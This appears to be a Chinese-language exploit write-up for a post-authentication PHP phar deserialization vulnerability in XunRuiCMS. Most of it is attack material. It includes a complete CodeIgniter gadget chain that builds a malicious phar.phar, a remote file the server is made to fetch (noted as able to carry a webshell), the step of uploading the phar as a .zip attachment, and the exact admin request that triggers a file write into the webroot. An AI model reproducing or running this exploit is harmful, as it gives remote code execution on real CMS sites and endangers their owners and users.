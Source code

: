 ```yaml
---
title: 讯睿cms后台反序列化漏洞
date: 2024-08-04 22:54:17
---
```

tips:如果是本地小皮搭建，需要使用apache为中间件，且php.ini的phar.readonly需要为Off


```
[Phar]
; http://php.net/phar.readonly
phar.readonly = Off
```

前提条件是需要登录后台，

首先自己本地使用下方代码生成``phar.phar``

```
<?php

namespace {

    ini_set('display_errors', 1);

    ini_set('display_startup_errors', 1);

    error_reporting(E_ALL);

}

namespace CodeIgniter\Cache\Handlers {

    use CodeIgniter\Session\Handlers\MemcachedHandler;


    class RedisHandler {

        protected $redis;

        public function __construct() {

            // 实例化不同命名空间中的 RedisHandler 类

            $this->redis = new MemcachedHandler();

        }

    }

}

namespace CodeIgniter\Session\Handlers{

    use CodeIgniter\HTTP\CURLRequest;

    class MemcachedHandler {

        public $memcached;

        public $lockKey;

        public function __construct()

        {

            $this->lockKey='http://127.0.0.1/88.php'; //远程服务器所需要准备的文件

            $this->memcached = new CURLRequest();

        }

    }

}

namespace CodeIgniter\HTTP{

    class CURLRequest
    {
        protected $config = [];
        public function __construct()
        {

           $this->config = [

            // 'timeout'         => 1.0,

            // 'connect_timeout' => 150,

            'debug'           => "../../../WWW/XunRuiCMS-Study/666.php", //所生成马的文件，建议绝对路径，这样会生成在php.exe的目录

            'verify'          => true,

        ];
        }
    }

}

// 全局命名空间

namespace {

    use CodeIgniter\Cache\Handlers\RedisHandler;

    $phar = new Phar("phar.phar");

    $phar->startBuffering();

    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

    $o = new RedisHandler();

    $o -> data='hu3sky';

    $phar->setMetadata($o); //将自定义的meta-data存入manifest

    $phar->addFromString("test.txt", "test");

    //签名自动计算

    $phar->stopBuffering();

  
  

//    $o = new RedisHandler();

//    print_r(urlencode(serialize($o)));

}
```

``88.php``代码为(可放马)
```
<?php

header("Content-Type: application/json <?php phpinfo();?>");
```

然后找到文章的附件上传处
![Pastedimage20240804230432.png](../资源文件/图片/Pasted-image-20240804230432.png)]

上传``phar.phar``改后缀为``.zip``
可以在这边查看路径，文件名称
![Pastedimage20240804231218.png](../资源文件/图片/Pasted-image-20240804231218.png)]

然后在另开一个页面
```
http://xunruicms-study:8009/admin.php?c=api&m=test_avatar_domain

image[avatar_path]=phar://./uploadfile/202408/37738d115ba9223.zip
```

![Pastedimage20240804231519.png](../资源文件/图片/Pasted-image-20240804231519.png)]
即可在指定目录生成文件

![123.png](../资源文件/图片/123.png)
